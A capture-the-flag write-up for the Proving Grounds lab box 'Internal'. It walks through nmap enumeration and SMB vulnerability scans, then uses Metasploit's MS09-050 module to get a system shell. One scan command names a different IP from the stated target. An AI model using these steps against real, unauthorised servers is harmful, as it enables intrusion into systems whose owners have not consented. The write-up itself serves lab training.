







# Internal -- Proving Grounds (write-up)

**Difficulty:** Easy / Beginner
**Box:** Internal (Proving Grounds)
**Author:** dkrxhn
**Date:** 2025-12-09

---

## TL;DR

### Windows Server 2008 SP1 vulnerable to MS09-050 (srv2.sys SMB code execution). Metasploit module gave instant root shell.
---
## Target info

- Host: `192.168.188.40`
- OS: Windows Server 2008 Standard 6001 Service Pack 1
- Services discovered: SMB (139, 445)
---
## Enumeration

```bash
sudo nmap -Pn -n 192.168.188.40 -sCV -p- --open -vvv
```







Identified Windows Server 2008 Standard 6001 SP1 -- likely vulnerable to EternalBlue or similar SMB exploits.

---
## Exploitation

Checked for MS17-010 (EternalBlue) first:

```bash
nmap -p445 --script smb-vuln-ms17-010 192.168.56.140
```



Confirmed vulnerable, but searchsploit scripts gave errors. Fixed with ChatGPT but still **did not** work.



Ran broader SMB vulnerability scan:

```bash
nmap -p139,445 --script "smb-vuln*" 192.168.188.40
```



Found CVE-2009-3103 -- **Microsoft Windows 'srv2.sys' SMB Code Execution (MS09-050)**.

Reference: <https://www.exploit-db.com/exploits/40280>

Used Metasploit:

```bash
msfconsole
search ms09-050
use 0
```

Got root shell.



---
## Lessons & takeaways

- When EternalBlue (MS17-010) scripts fail, check for older SMB vulns like MS09-050
- Windows Server 2008 SP1 is vulnerable to multiple SMB exploits
- Metasploit is reliable when standalone exploit scripts break
---
